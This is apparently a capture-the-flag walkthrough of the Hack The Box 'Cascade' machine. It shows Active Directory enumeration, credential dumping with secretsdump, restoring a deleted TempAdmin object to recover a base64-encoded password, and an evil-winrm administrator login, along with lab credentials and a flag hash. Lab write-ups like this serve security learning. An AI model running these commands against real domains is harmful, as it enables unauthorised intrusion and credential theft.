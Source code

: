 
Now with all the data we can figure that we have to retrive the password.

If you recall we have the note !!!
```
This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
```

![[Pasted image 20240919031500.png]]

I think we have to recover from AD recycle bin the password let's take the help of google fu and chat gpt

```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```


```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all
```
![[Pasted image 20240919033540.png]]

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

![[Pasted image 20240919035359.png]]


```
Restore-ADObject -Identity f0cc344d-31e0-4866-bceb-a842791ca059 -NewName TempAdmin
```


```
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

![[Pasted image 20240919035738.png]]
```
YmFDVDNyMWFOMDBkbGVz
```

![[Pasted image 20240919035835.png]]
```
baCT3r1aN00dles
```


```
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i 10.10.10.182
```

```
8bb0589a72dd5cdd44b009e07b0d2bdc
```
![[Pasted image 20240919040059.png]]


